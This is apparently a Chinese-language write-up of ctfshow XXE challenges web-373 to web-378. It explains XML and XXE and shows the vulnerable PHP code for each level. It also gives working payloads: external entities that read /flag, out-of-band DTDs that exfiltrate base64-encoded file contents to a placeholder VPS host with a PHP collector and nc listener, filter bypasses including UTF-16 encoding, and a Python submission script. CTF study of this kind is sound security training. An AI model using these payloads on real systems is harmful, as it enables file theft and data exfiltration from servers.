






# ctfshow-xxe

## XXE基础知识

​        XXE（XML External Entity）攻击是一种针对XML处理漏洞的网络安全攻击手段。攻击者利用应用程序在解析XML输入时的漏洞，构造恶意的XML数据，进而实现各种恶意目的。

所以要学习xxe就需要了解xml

xml相关：
XML，全称为可扩展标记语言（Extensible Markup Language），是一种用于标记电子文件使其具有结构性的标记语言。它属于标准通用标记语言的子集，通过此种标记，计算机之间可以处理包含各种信息的数据，比如文章等。XML非常适合万维网传输，提供统一的方法来描述和交换独立于应用程序或供应商的结构化数据。它是Internet环境中跨平台的、依赖于内容的技术，也是当今处理分布式结构信息的有效工具。

**XML的特性和语法包括：**

**XML是大小写敏感的。**
**XML只有单个标签而没有相对应的结束标签的元素必须以“/”结尾，否则结束标签绝对不能省略。**
**XML中的属性值必须使用引号，例如“width=‘300’”，不能写成“width=300”。**
**XML中所有的属性必须都有属性值。**
**XML文档应当以一个文档头开始，文档头可选，但是强烈建议使用。例如：“<?xml version='1.0’?>”或“<?xml version='1.0' encoding='UTF-8’?>”。**
**XML文档的正文包含根元素，根元素包含其他元素。元素可以有子元素、文本或者两者皆有。**
**XML文档由两部分构成：第一部分是文档序言，第二部分是文档元素（节点）。文档序言通常位于XML文档的顶端，根元素之前出现，它是一个特定的包含XML文档设定信息的部分。XML文档序言主要由XML声明、文档类型定义（DTD）和XML Schema组成。XML声明用来设置XML文档解析时所需的基本参数，包括版本号、编码方式等。DTD定义了文档的整体结构以及文档的语法，应用广泛并有丰富工具支持。XML Schema则用于定义管理信息等更强大、更丰富的特征。**

XML的用途非常广泛，主要包括：

存储数据：XML可以用于持久化保存需要长期存储的数据，例如web应用程序中的各种配置文件（如web.xml和bean.xml）。
分离数据：XML能将数据和展现形式相分离，使数据的组织者和展示者能更专注于各自的任务。
交换数据：XML可以在不兼容的系统之间交换数据，因为XML是纯文本格式，不受软件和硬件的限制。
共享数据：XML提供了一种简单的数据共享方式，因为任何应用程序都可以读取和解析XML文件。
总的来说，XML是一种强大且灵活的数据标记语言，它广泛应用于各种需要结构化数据处理的场景，特别是在Web开发、数据交换和配置文件管理等领域。

xml相似于html，但是它可以自定义标签

XML 和 HTML 为不同的目的而设计：

XML 被设计用来传输和存储数据，其焦点是数据的内容。
HTML 被设计用来显示数据，其焦点是数据的外观。
HTML 旨在显示信息，而 XML 旨在传输信息。

XXE:
       首先，攻击者会寻找那些存在XXE漏洞的应用程序作为攻击目标。这些应用程序可能没有正确限制或验证XML输入中的外部实体引用。

    一旦找到了目标，攻击者会开始构造恶意的XML输入。这通常涉及到在XML文档中定义外部实体，这些实体指向攻击者想要访问或控制的资源，如文件、URL或其他后端系统。
    
    然后，攻击者将这些恶意的XML输入发送给目标应用程序。当应用程序解析这些XML数据时，它会尝试加载并包含这些外部实体引用的内容。由于应用程序没有正确地限制或验证这些引用，它可能会执行攻击者指定的恶意操作。
    
    通过XXE攻击，攻击者可以实现多种恶意目的。例如，他们可以读取目标服务器上的敏感文件，如配置文件、密码文件或数据库凭据。这些文件通常包含有关应用程序配置、用户凭证或其他重要信息，对攻击者来说具有很高的价值。

   此外，攻击者还可以利用XXE攻击发起服务器端请求伪造（SSRF）攻击，进一步探索和利用目标应用程序的内部网络结构。通过构造特定的XML输入，攻击者可以使应用程序发起对内部网络资源的请求，从而获取更多关于目标系统的信息。

  在某些情况下，攻击者甚至可以利用XXE漏洞执行远程代码。他们可以在XML输入中嵌入恶意代码，通过应用程序的XML解析器执行这些代码，进而实现对目标系统的完全控制。

  总的来说，从攻击者的角度来看，XXE攻击是一种利用应用程序对XML处理不当的漏洞，通过构造恶意的XML输入来实现各种恶意目的的攻击手段。为了防范XXE攻击，应用程序需要正确验证和限制XML输入中的外部实体引用，并采取其他必要的安全措施。

## web-373（有回显XXE读取文件数据）

先看源码

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-01-07 12:59:52
# @Last Modified by:   h1xa
# @Last Modified time: 2021-01-07 13:36:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();//该对象用于操作xml数据
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);//加载 XML 文件并进行解析
    $creds = simplexml_import_dom($dom);//换了一种方式
    $ctfshow = $creds->ctfshow;//将xmlctfshow标签里面的内容赋值个ctfshow这个变量
    echo $ctfshow;//输出这个值
}
highlight_file(__FILE__);    
```

通过伪协议input获取post中的数据流 然后

libxml_disable_entity_loader(false);启用 libxml 实体加载器功能，允许 XML 解析器加载外部实体

LIBXML_NOENT 表示禁止实体扩展 xml自带实体比如< >不能使用 以及内部实体
`LIBXML_DTDLOAD` 表示允许加载外部 DTD

并且有回显

所以bp抓包，然后构造payload

payload：

```
<?xml version="1.0"?>
<!DOCTYPE payload [
<!ELEMENT payload ANY>
<!ENTITY xxe SYSTEM "file:///flag">
]>
<creds>
<ctfshow>&xxe;</ctfshow>
</creds>
```

解释：

```
这段DTD定义了一个外部实体 xxe，它指向 /flag文件。
&xxe;：在 ctfshow 元素中，引用了 xxe 外部实体。解析时，&xxe; 会被替换成 /flag 文件的内容（在Linux系统上）。
从而实现文件读取的作用
```

提交之后就拿到flag了



---

## web-374（无回显XXE外带数据）

首先看题目

```
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    
```

发现这题没有回显，所以使用外带数据通道提取数据

步骤：xml获取dtd dtd中放base64读取文件和带数据 

**第一种方式：**

payload：

```
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % quote SYSTEM "http://vps_ip/xxe/test.dtd">
%quote;
]>
```

vps test.dtd

```
<!ENTITY % load "<!ENTITY &#x25; send  SYSTEM 'http://vps_ip/xxe/index.php?file=%file;'> ">
%load;
%send;
```

vps index.php

```
<?php 
file_put_contents("test.txt", $_GET['file']) ; 
?>
```

发送后会在vps下的test.txt中看到base64编码后的flag



---

**第二种方式：**

payload：

```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://vps_id/xxe/test.dtd">
%remote;%int;%send;
]>
```

vps test.dtd

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://vps_ip:9999?q=%file;'>">
```

vps上nc -lvv 进行监听端口9999

---

## web-375（无回显XXE过滤XML声明绕过）

先看源码：

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-01-07 12:59:52
# @Last Modified by:   h1xa
# @Last Modified time: 2021-01-07 15:22:05
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"/', $xmlfile)){	//过滤了xml声明
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    
```

可以发现源码过滤掉了XML声明

这题解法和上题差不多。

几种绕过方法：

1. **不写XML声明**
2. **在<?xml后面多加个空格绕过**
3. **双引号换单引号**

---

## web-376（无回显XXE过滤XML声明绕过）

首先分析源码：

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-01-07 12:59:52
# @Last Modified by:   h1xa
# @Last Modified time: 2021-01-07 15:23:51
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"/i', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    
```

**比上一题多一个/i大小写 没区别 同理**

---

## web-377（无回显XXE过滤http和XML声明utf-16编码绕过）

源码：

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-01-07 12:59:52
# @Last Modified by:   h1xa
# @Last Modified time: 2021-01-07 15:26:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"|http/i', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);  
```

 在 web374 的基础上过滤了 <?xml version="1.0" 和 http

说是可以使用 UTF-16 编码绕过,

把web374的payload转为utf-16编码

**python脚本：**

```
import requests
url = 'http://0ec4fe9d-6949-4e9d-a3b1-70be3bb3f01b.challenge.ctf.show/'
payload = '''
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % quote SYSTEM "http://vps_ip/xxe/test.dtd">
%quote;
]>
'''
payload = payload.encode('utf-16')
rep = requests.post(url=url, data=payload)
print(rep.text)
```

---

## web-378（有回显XXE）

打开一看是个登录界面



抓个包看看



一看就知道是xml数据，后台肯定会用xml解析这个数据

源码中也能看出来

```
function doLogin(){
//不为空就行
	var username = $("#username").val();
	var password = $("#password").val();
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	//定义一下数据
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
使用异步发送请求
    $.ajax({
        type: "POST",
        url: "doLogin",
        contentType: "application/xml;charset=utf-8",//告诉服务器我的数据类型
        data: data,
        dataType: "xml",//接收的数据类型为
        anysc: false,
        success: function (result) {
             从返回的 XML 数据中获取名为 "code" 的元素的值。
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
            //如果code为1显示登录成功
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
        },
//在 AJAX 请求失败时执行 当发生错误时，会在页面上显示 errorThrown + ':' + textStatus，即显示异常信息和错误状态描述
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
```

contentType: "application/xml;charset=utf-8",//告诉服务器我的数据类型

X-Requested-With: XMLHttpRequest 这是告诉服务器我是ajax进行异步通信 数据可能是xml也可能是json(这俩大概率) 都有可能

发送的是xml数据 回来的也是xml数据(其实回来的不用管)服务器肯定是解析xml

发送之后发现还是有回显的。



payload：

```
<?xml version="1.0"?>
<!DOCTYPE payload[
<!ENTITY xxe SYSTEM "file:///flag">
]>
<user>
<username>
&xxe;
</username>
<password>
admin
</password>
</user>
```

发送之后在bp和页面都可看到flag



